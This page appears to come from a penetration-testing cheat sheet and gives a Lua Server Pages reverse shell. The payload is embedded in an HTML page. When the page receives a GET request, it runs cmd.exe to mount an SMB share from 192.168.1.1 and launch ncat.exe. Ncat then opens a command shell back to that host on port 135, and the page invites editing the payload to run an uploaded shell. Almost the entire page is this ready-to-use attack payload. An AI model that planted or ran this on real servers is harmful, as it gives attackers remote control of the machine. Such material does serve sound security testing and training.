 ```yaml
---
title: LSP Reverse (Lua Server)
parent: Shell (Reverse/Others)
layout: default
nav_order: 11
---
```


Edit the execute part as required, for example executing uploaded shell

```
<div style="margin-left:auto;margin-right: auto;width: 350px;">

<div id="info">
<h2>Lua Server Pages Reverse Shell</h2>
<p>Delightful, isn't it?</p>
</div>

<?lsp if request:method() == "GET" then ?>
   <?lsp os.execute("cmd.exe /c net use x: \\\\192.168.1.1\\SMB /user:user pass & x:\\ncat.exe 192.168.1.1 135 -e cmd.exe") ?>
<?lsp else ?>
   You sent a <?lsp=request:method()?> request
<?lsp end ?>

</div>
```